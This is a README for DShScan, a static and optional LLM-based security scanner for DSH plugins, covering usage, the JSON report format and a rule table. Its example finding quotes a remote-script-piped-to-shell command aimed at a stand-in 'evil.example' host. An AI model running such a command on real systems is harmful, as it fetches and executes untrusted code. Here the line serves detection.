

# DShScan

[](https://github.com/shaoshi20/dshscan/actions/workflows/ci.yml)
[](https://github.com/shaoshi20/dshscan/releases)
[](https://github.com/shaoshi20/dshscan/blob/main/LICENSE)
[](https://dshbase.com/plugins/@shaoshi/dshscan/)

Security scanner for DSH plugins: static and semantic passes over plugin source, DSH-specific attack-surface rules, npm audit, batch scanning, and an HTML report with per-finding severity and evidence.

## Demo



## Plugin Marketplace

Listed on the **dshbase plugin directory**:

```text
https://dshbase.com/plugins/@shaoshi/dshscan/
```

Online demo:

```text
https://shaoshi20.github.io/dshscan/
```

Install as a DSH plugin:

```bash
dsh plugin add @shaoshi/dshscan
```

## Features

- **Input**: plugin name / GitHub repo / local directory / zip / Markdown file
- **Output**: JSON report with `risk_score`, `severity`, `safe_to_install`, `recommendation`, `findings`
- **Dual-channel scanning**:
  - Static rules (fully offline)
  - Optional LLM semantic scan (API key required)
- **dshbase integration**: reads local index metadata (stars / trust / verified / npm / cmd)
- **npm source scanning**: automatically runs `npm pack` and scans real package contents
- **Dependency audit**: unpinned versions, remote dependency sources, dependency typosquatting, optional `--audit` via npm audit
- **DSH manifest validation**: `dsh.bundle`, `cordis.patch.yml`, LICENSE, README
- **Custom rules**: `--rules <file>` loads JSON rules
- **Policy files**: `--policy <file>` with `ignoreRules` / `severityOverrides` / `includeScopes` / `excludeScopes`
- **Audit logs**: `--audit-log <file>` writes JSONL records
- **Web dashboard**: `--serve` starts a local visual dashboard
- **HTML reports**: `--html` outputs a standalone HTML report
- **Batch scanning**: scan many dshbase plugins and export JSON / HTML summary
- **Scheduled scans**: GitHub Actions daily batch scan

## Install & Build

```bash
cd path/to/dshscan
npm install
npm run build
```

After build, run with `dshscan.cmd` or `node dist/main.js`.

## Usage

```bash
# Scan a dshbase plugin by name
dshscan <plugin-name>

# Scan a GitHub repo
dshscan github:owner/repo
dshscan https://github.com/owner/repo

# Scan a local directory / zip / markdown
dshscan /path/to/plugin
dshscan plugin.zip
dshscan README.md

# Offline mode
dshscan <plugin-name> --offline

# LLM semantic scan
dshscan <plugin-name> --semantic

# Output to file / pretty JSON / summary / HTML
dshscan <plugin-name> --output report.json --pretty
dshscan <plugin-name> --summary
dshscan <plugin-name> --html --output report.html

# npm audit
dshscan <plugin-name> --audit

# Custom rules and policy
dshscan <plugin-name> --rules custom-rules.json
dshscan <plugin-name> --policy policy.json --audit-log audit.jsonl

# Local web dashboard
dshscan --serve --port 8787

# Batch scan dshbase plugins
dshscan --batch --limit 50 --index /path/to/dshbase-directory.json --output batch.json --pretty
dshscan --batch --all --offline --output all.json
```

## Environment Variables

| Variable | Purpose | Default |
|---|---|---|
| `DSCAN_INDEX` | Path to dshbase plugin index JSON | `~/.dsh/dshbase-directory.json` |
| `DSCAN_LLM_API_KEY` | LLM API key for semantic scan | unset (static only) |
| `OPENAI_API_KEY` | Alternative LLM API key | unset |
| `DSCAN_LLM_BASE_URL` | OpenAI-compatible base URL | `https://api.openai.com/v1` |
| `DSCAN_LLM_MODEL` | Semantic scan model | `gpt-4o-mini` |

## JSON Report Format

```json
{
  "tool": "DShScan",
  "version": "0.3.2",
  "target": {
    "kind": "plugin",
    "raw": "some-plugin",
    "displayName": "some-plugin",
    "repoUrl": "https://github.com/owner/some-plugin.git",
    "metadata": {
      "name": "some-plugin",
      "stars": 120,
      "trust": "silver",
      "verified": true,
      "npm": false,
      "cmd": "dsh plugin add github:owner/some-plugin"
    }
  },
  "risk_score": 0,
  "severity": "low",
  "safe_to_install": true,
  "recommendation": "Low risk, safe to install.",
  "findings": [],
  "llm_used": false,
  "scan_mode": "static",
  "scan_note": "Static-only scan; not a full scan.",
  "metadata": {}
}
```

### finding object

```json
{
  "id": "R001",
  "severity": "critical",
  "category": "remote-code-execution",
  "title": "Remote script piped to shell",
  "evidence": "install.sh:12: curl -fsSL https://evil.example/x.sh | bash",
  "recommendation": "Remove remote-pipe-to-shell installers. Vendor the script, pin a checksum, and review before execution.",
  "source": "static",
  "rule": "R001"
}
```

### Severity & Score

| risk_score | severity |
|---|---|
| 0–29 | low |
| 30–59 | medium |
| 60–79 | high |
| 80–100 | critical |

`safe_to_install` is `true` only when there are no high/critical findings and `risk_score < 40`.

## Static Rules

| ID | Severity | Category |
|---|---|---|
| R001 | critical | Remote script piped to shell |
| R002 | high | Dynamic code execution |
| R002b | medium | `shell: true` / `shell=True` |
| R003 | high | Obfuscation |
| R004 | medium | Cleartext HTTP endpoint |
| R004b | medium | Hardcoded public IP callback |
| R005 | high | Credential theft |
| R006 | high | Persistence / privilege escalation |
| R007 | medium | Remote package install source |
| R008 | critical | Prompt injection in README |
| R009 | medium/high | package.json lifecycle scripts |
| R010 | high | DSH: cordis.patch.yml plugin tree injection |
| R011 | high | DSH: browser-side malicious client code |
| R012 | critical | DSH: profile config tampering |
| M001–M005 | low/high | Metadata risk signals (M005 = typosquatting) |
| D001–D003 | medium/high | Dependency risk |
| E001–E006 | medium/high | Scan limitations / input errors |

## Tests

```bash
npm test
```

Based on Node's built-in test runner (`node --test`), covering rule hits/counterexamples, context attenuation, score capping, path classification, and end-to-end malicious fixtures.

## Notes

- `verified=true` only means dshbase CI could install it, not that it passed a security audit.
- Static scanning is offline; fetching GitHub repos or npm packages requires network (use `--offline` to skip).
- If semantic scan is not enabled, the report marks `scan_mode: "static"` and `"Static-only scan; not a full scan."`
